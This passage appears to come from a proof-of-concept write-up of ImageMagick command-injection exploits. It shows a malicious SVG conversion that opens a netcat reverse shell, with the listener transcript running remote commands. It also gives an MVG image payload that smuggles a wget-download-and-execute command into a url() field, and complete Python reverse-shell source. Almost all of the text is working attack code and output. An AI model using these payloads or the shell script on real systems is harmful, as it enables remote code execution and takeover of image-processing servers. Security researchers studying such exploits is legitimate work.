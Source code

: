 Run it:

    root@kali:~/git/PoCs# $CONVERT shell.svg out.png
    ^C    <------ netcat connection
    convert: delegate failed `"rsvg-convert" -o "%o" "%i"' @ error/delegate.c/InvokeDeleg
       ate/1332.
    convert: unable to open image `/tmp/magick-2120p5S-EVdwLpBN': No such file or directo
       ry @ error/blob.c/OpenBlob/2702.
    convert: unable to open file `/tmp/magick-2120p5S-EVdwLpBN': No such file or director
       y @ error/constitute.c/ReadImage/540.
    convert: no images defined `out.png' @ error/convert.c/ConvertImageCommand/3241.


While over on the remote netcat listener:

    root@kali:~# nc -l -p 443
    uname -a
    Linux kali 4.19.0-kali4-amd64 #1 SMP Debian 4.19.28-2kali1 (2019-03-18) x86_64 GNU/Linux
    date
    Sun 29 Sep 2019 04:07:46 PM AEST



### Python reverse shell with MVG image input


This time another MVG based payload, but leveraging python which needs to be on the vulnerable host.

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://deadbeef.io/n0p.jpg"|wget 
       http://127.0.0.1/x.py -o /tmp/x.py && python /tmp/x.py")'
    pop graphic-context

The payload will download a python script using wget from a known host, and executes the script.

The python script binds to the netcat listener and `subprocess.Popen` shelling out the commands, and piping back in stdout to the socket.

```python
import socket
import os
import subprocess

s = socket.socket()

host = "127.0.0.1"
port = 443

s.connect((host, port))

while True:
  data = s.recv(1024)
  if data[:2].decode("utf-8") == 'cd':
    os.chdir(data[3:].decode("utf-8"))

  if len(data) > 0:
    cmd = subprocess.Popen(data[:].decode("utf-8"), shell=True, 
      stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
    
    output_bytes = cmd.stdout.read() + cmd.stderr.read()
    output_str = str(output_bytes, "utf-8")

    s.send(str.encode(output_str + str(os.getcwd()) + '> '))
    print(output_str)

s.close()
```
